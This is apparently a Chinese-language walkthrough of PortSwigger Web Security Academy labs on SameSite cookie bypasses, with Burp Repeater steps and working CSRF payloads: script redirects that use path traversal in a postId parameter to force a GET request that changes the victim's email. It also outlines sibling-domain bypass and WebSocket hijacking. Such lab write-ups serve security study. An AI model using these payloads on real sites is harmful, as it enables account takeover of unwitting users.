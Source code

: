 我的是：
&lt;script&gt;
    document.location = "https://0a2000fb033590aec1de715a0082005b.web-security-academy.net/post/comment/confirmation?postId=../my-account";
&lt;/script&gt;</code></pre>

存储(store)并查看漏洞（view exploit）


当客户端重定向发生时，仍然会看到登录帐户页面。这证实了浏览器在第二个请求中包含了已验证会话cookie，即使最初的评论提交请求是从任意外部站点发起的


<hr/>
part4:
利用，发送POST /my-account/change-email请求到BP
在Burp Repeater中，右键单击请求并选择Change request method（更改请求方法）。Burp会自动生成一个等价的GET请求。发送请求，注意到端点允许您使用GET请求更改电子邮件地址。



返回漏洞攻击服务器并更改漏洞攻击中的postId参数，以便重定向导致浏览器发送等效的GET请求来更改您的电子邮件地址：
<pre><code>&lt;script&gt;
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
&lt;/script&gt;

我的是：
&lt;script&gt;
    document.location = "https://0a2000fb033590aec1de715a0082005b.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
&lt;/script&gt;</code></pre>
需要包含submit参数和URL编码的和分隔符，以避免在初始设置请求中中断postId参数。
自己测试该漏洞（view exploit），并确认您已成功更改电子邮件地址。再将漏洞发送给victim

 完成实验




---


---


> 
<h3>6、通过易受攻击的同级域绕过SameSite限制</h3>
1、无论是在测试别人的网站还是尝试保护自己的网站，都必须记住，即使请求是跨源发出的，它仍然可以是同一个网站。
<hr/>
2、确保彻底审核所有可用的攻击面，包括任何同级域。特别是允许引发任意次要请求的漏洞，例如 XSS语言，可能会完全破坏基于站点的防御，使站点的所有域都暴露在跨站点攻击之下。
<hr/>
3、除了经典的CSRF之外，如果目标网站支持WebSocket，则此功能可能容易受到跨站点WebSocket劫持（CSWSH）的攻击，CSWSH本质上只是针对WebSocket握手的CSRF攻击。
<hr/>
4、涉及实验：
实验9：通过兄弟域严格绕过SameSite


---
